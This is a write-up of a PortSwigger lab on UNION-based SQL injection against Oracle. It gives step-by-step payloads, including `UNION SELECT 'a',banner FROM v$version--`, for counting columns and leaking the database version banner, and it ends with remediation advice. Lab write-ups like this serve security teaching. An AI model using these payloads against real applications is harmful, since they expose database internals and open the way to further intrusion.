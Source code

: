 # SQL injection attack, querying the database type and version on Oracle

![Lab banner – PortSwigger Practitioner level](1.png)

---

## Executive Summary

In the PortSwigger Web Security Academy lab “SQL injection attack: querying the database type and version (Oracle),” we demonstrated that an attacker can leak detailed version strings of the underlying Oracle Database by appending a crafted `UNION SELECT` clause to a product-search request.
Because the application simply tacks raw query-string text onto its `WHERE` clause, we were able to join the results of `V$VERSION` to the normal product list and have the database hand back its own build information.

---

## Description

![Lab banner – PortSwigger Practitioner level](2.png)

## Why This Matters to You

* **Targeted exploitation:** Exact version numbers allow attackers to map your database against public CVEs and selectively fire exploits that are known to work.
* **Defence evasion:** Knowledge of edition (XE / SE / EE) and patch level helps adversaries predict which auditing or security features are enabled.
* **Recon → privilege escalation:** Version leakage often forms one step in chained attacks that culminate in remote code execution or full data exfiltration.

---

## Step-by-Step Walk-Through

| # | What we did (payload shown URL-encoded when required)                                                               | Intended SQL generated by the app                                                          | What actually happens & why                                                                                                                              |
| - | ------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 1 | **Confirmed vulnerability**<br>Baseline request: `/filter?category=Pets`                                            | `SELECT * FROM someTable WHERE category='Pets'`                                            | Normal list of “Pets” products returned.                                                                                                                 |
| 2 | **Counted columns** with `ORDER BY` (or `UNION NULL,NULL`) – found **2 columns**.                                   | —                                                                                          | Knowing column count is essential for a valid `UNION`.                                                                                                   |
| 3 | **Found text-compatible columns** by injecting `UNION 'a','b'` – discovered both columns accept strings.            | —                                                                                          | Confirms which positions can display arbitrary text.                                                                                                     |
| 4 | **Queried Oracle version** with<br>`/filter?category=Pets'/**%20**UNION%20SELECT%20'a',banner%20FROM%20v$version--` | `SELECT * FROM someTable WHERE category='Pets' UNION SELECT 'a', banner FROM v$version--'` | The second column now prints the full Oracle banner (e.g., `Oracle Database 19c Enterprise Edition Release 19.0.0.0.0 - Production`). Lab flags success. |

---

![Lab banner – PortSwigger Practitioner level](3.png)


---

## Observable Output

| Test / Payload                             | Visible result                                   | What it proved                          |
| ------------------------------------------ | ------------------------------------------------ | --------------------------------------- |
| Baseline (`category=Pets`)                 | Normal product grid                              | Application behaves as intended.        |
| `UNION 'a','b'`                            | Page prints “a  b”                               | Column count & text placement verified. |
| `UNION SELECT 'a',banner FROM v$version--` | Oracle version banner strings appear on the page | **Database disclosure** confirmed.      |

---

![Lab banner – PortSwigger Practitioner level](4.png)

---

## Conclusion

By chaining basic UNION-based SQL injection techniques we extracted the exact Oracle build string—information invaluable to any attacker planning further compromise. Eliminating string-concatenated SQL and enforcing least-privilege DB roles are top-priority fixes.
